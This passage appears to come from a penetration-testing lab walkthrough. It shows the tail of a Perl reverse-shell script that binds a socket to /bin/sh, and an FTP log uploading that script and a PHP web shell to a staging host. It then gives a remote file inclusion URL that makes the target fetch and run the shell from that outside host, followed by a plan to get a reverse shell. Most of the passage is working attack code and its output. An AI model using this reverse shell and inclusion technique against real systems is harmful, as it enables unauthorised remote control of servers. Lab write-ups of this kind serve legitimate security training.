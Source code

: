 ```
if(fork() == 0){
 STDIN->fdopen($sock,w);
 STDOUT->fdopen($sock,w);
 STDERR->fdopen($sock,w);
 system("/bin/sh");
 close($sock);
 exit;
}
```

Upload script in action (saves me some time when machines get reverted :) )

```
root@krypt2:/vpn/70# ftp -inv 192.168.6.70 < ftpcmd       
Connected to 192.168.6.70.
220-Complete FTP server
220 FTP Server v 3.3.0
331 Password required for devil
230 User devil logged in.
Remote system type is UNIX.
Using binary mode to transfer files.
250 Directory changed to "/MyDocuments/......".
250 Directory changed to "/MyDocuments/....../......".
250 Directory changed to "/MyDocuments/....../....../......".
250 Directory changed to "/MyDocuments/....../....../....../......".
250 Directory changed to "/MyDocuments/....../....../....../....../surgemail".
250 Directory changed to "/MyDocuments/....../....../....../....../surgemail/www".
200 Type set to I
local: corelanshell.pl remote: corelanshell.pl
200 PORT command successful.
150 Opening BINARY mode data connection for corelanshell.pl
226 Transfer complete.
519 bytes sent in 0.00 secs (2077.2 kB/s)
local: header.inc.php remote: header.inc.php
200 PORT command successful.
150 Opening BINARY mode data connection for header.inc.php
226 Transfer complete.
150397 bytes sent in 0.94 secs (156.4 kB/s)
221 Goodbye.
```

Ok, so far so good. Next, I will

1\. get the header.inc.php to execute and give me a nice web shell gui

2\. use the gui to download the corelanshell.pl file

3\. execute the perl script and get myself a reverse shell

**Step 1 :**

[http://192.168.6.66/1/slogin\_lib.inc.php?slogin\_path=http://192.168.6.70/](http://192.168.6.66/1/slogin_lib.inc.php?slogin_path=http://192.168.6.70/)

=\> This will basically grab the php shell from 192.168.6.70 (in the webroot, header.inc.php) and execute it
